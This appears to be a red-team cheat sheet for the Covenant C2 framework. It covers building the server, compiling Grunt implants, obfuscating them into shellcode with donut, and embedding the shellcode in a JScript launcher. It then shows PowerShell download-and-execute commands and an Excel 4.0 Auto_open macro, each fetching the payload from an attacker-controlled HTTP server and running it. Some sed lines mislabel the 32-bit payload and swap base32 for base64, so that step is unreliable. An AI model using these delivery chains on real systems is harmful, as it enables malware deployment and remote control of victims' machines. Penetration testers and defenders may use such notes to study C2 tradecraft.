 #### 1. About

- URL: `https://github.com/cobbr/Covenant`
- .NET C2 framework


#### 2. Build

From: `https://github.com/cobbr/Covenant/wiki/Installation-And-Startup`

```
# git clone --recurse-submodules https://github.com/cobbr/Covenant
# cd Covenant/Covenant
# docker build -t covenant .
```


#### 3. Run

```
# cd Covenant/Covenant
# docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -d -v `pwd`/Data>:/app/Data covenant
```


#### 4. SSL Cert for HTTPs listener

```
# site='test.local'
# out='default.pem'
# openssl req \
-x509 -nodes -days 365 -sha512 \
-subj "/C=CH/ST=ZH/L=Zurich/CN=$site" \
-newkey rsa:4096 -keyout $out -out $out
# openssl pkcs12 -export -in $out -inkey $out -out default.pfx
```

- ConnectAddresses: <EXTERNAL_IP>
- ConnectPort: 443
- BindPort: 443
- BindAddress: 0.0.0.0


#### 5. Instrumentation

1. Launcher config

```
Launchers > Binary (ValidateCert: false, UseCertPinning: false)
Launchers > Binary > Code - save as GruntHTTP.cs
```

2. Compile .NET

```
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -out:grunt64.exe GruntHTTP.cs
PS>C:\Windows\Microsoft.Net\Framework64\v4*\csc.exe -platform:x86 -out:grunt32.exe GruntHTTP.cs
```

3. Use `donut` (`https://github.com/TheWover/donut/releases`) for binary obfuscation

```
PS>.\donut.exe -a2 -f1 'grunt64.exe' -o grunt64.bin
PS>.\donut.exe -a2 -f1 'grunt32.exe' -o grunt32.bin
```

4. WScript example

```
PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

5. Place encoded Grunt shell-code into launcher JS script for `wscript`

```
# wget https://raw.githubusercontent.com/outflanknl/Scripts/master/ShellcodeToJScript.js

# l32=`grep -n '^var encodedPayload32' ShellcodeToJScript.js | awk -F ':' '{print $1}'`
# l64=`grep -n '^var encodedPayload64' ShellcodeToJScript.js | awk -F ':' '{print $1}'`

# p32=`base32 -w0 grunt32.bin`
# p64=`base64 -w0 grunt64.bin`

# sed -i --expression $l32"s@.*@var encodedPayload64=\"$p32\";@" ShellcodeToJScript.js
# sed -i --expression $l64"s@.*@var encodedPayload64=\"$p64\";@" ShellcodeToJScript.js
```

6. Serve/download and run the JS file

```
# python3 -m http.server 9999

PS>powershell -c "(New-Object System.Net.WebClient).DownloadString('http://172.16.103.128:9999/ShellcodeToJScript.js')" > x.js
PS>wscript.exe x.js
```

7. Excel download and execute (Macro v4)

```
=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://172.16.103.128:9999/ShellcodeToJScript.js","C:\Users\Public\jscript.js",0,0)
=EXEC("wscript.exe C:\Users\Public\jscript.js")
```
Note: remember to change `A1` to `Auto_open`
